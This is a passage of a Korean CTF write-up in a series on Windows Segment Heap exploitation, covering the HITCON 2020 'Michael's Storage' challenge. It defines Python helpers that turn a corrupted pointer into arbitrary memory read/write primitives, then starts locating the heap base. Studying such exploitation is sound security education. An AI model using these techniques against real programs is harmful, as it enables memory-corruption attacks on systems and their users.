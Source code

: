 ```yaml
---
title: "[Research] Hip하게 Heap 정복하기 Part 5 - HITCON 2020 Michael's Storage(3)"
author: L0ch
tags: [L0ch, research, windows, segment heap, heap, windows 10, hitcon, ctf]
categories: [Research]
date: 2022-01-09 18:00:00
cc: true
index_img: 2022/01/09/l0ch/segment-heap-part5/thumbnail.jpg
---
```


# 시리즈 바로가기
[Hip하게 Heap 정복하기 Part 1 - Segment Heap(1)](https://hackyboiz.github.io/2021/09/19/l0ch/segment-heap-part1/)
[Hip하게 Heap 정복하기 Part 2 - Segment Heap(2)](https://hackyboiz.github.io/2021/10/10/l0ch/segment-heap-part2/)
[Hip하게 Heap 정복하기 Part 3 - HITCON 2020 Michael's Storage ](https://hackyboiz.github.io/2021/11/21/l0ch/segment-heap-part3/)
[Hip하게 Heap 정복하기 Part 4 - HITCON 2020 Michael's Storage(2)](https://hackyboiz.github.io/2021/12/19/l0ch/segment-heap-part4/)
Hip하게 Heap 정복하기 Part 5 - HITCON 2020 Michael's Storage(3) ← Now!

이전 파트에서 vs subsegment 주소를 구했었죠.  arbitrary read 프리미티브를 편하게 사용할 수 있도록 함수로 구현해볼게요. 덤으로 나중에 쓸 arbitrary write도 `readmeme`의 `getvalue`를 `setvalue` 호출로 수정해  `writemem` 함수도 정의해놓도록 하겠습니다!

```python
def readmem(addr):
    setvalue(7,1,currupt_ptr_off,addr)
    getvalue(6)
    p.recvuntil("Value:")
    return u64(p.recvuntil("\r\n")[:-2].ljust(8, "\x00")[:8])

def writemem(addr,data):
    setvalue(7,1,currupt_ptr_off,addr)
    setvalue(6,3,len(data)+1,data)
```

이제 `readmem`/`writemem` 함수를 호출하는 것으로 arbitrary read/write 프리미티브를 모두 얻었네요.



## Heap base

이제 구한 vs subsegment 주소를 이용해 heap base 주소([_SEGMENT_HEAP](https://hackyboiz.github.io/2021/09/19/l0ch/segment-heap-part1/#SEGMENT-HEAP) 구조체 시작 주소)를 구해보도록 하죠.

![Untitled](segment-heap-part5/Untitled.png)
